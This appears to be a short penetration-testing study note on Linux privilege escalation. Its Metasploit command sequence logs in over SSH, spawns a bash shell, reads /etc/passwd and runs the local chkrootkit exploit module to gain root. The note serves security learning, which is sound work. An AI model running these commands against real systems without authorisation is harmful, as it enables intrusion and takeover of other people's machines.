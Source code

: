 ```yaml
---
up: "[[Linux Post Exploitation]]"
---
```


# Exploiting a Vulnerable Program

- Linux Privilege Escalation will depend on the kernel version and the distribution release version
- MSF is not really into Linux kernel modules but in some cases can work

## Demonstration

```bash
> use auxiliary/scanner/ssh/ssh_login
> set USERNAME <user>
> set PASSWORD <pass>
/bin/bash -i
$ ^Z
> sessions -u <id>
> sessions <id>
> shell
/bin/bash -i
$ cat /etc/passwd
$ ps aux
# chkrootkit is vulnerable
$ chkrootkit -V
> use exploit/unix/local/chkrootkit
> set SESSION
> set CHKROOTKIT <bin_path>
> run
```
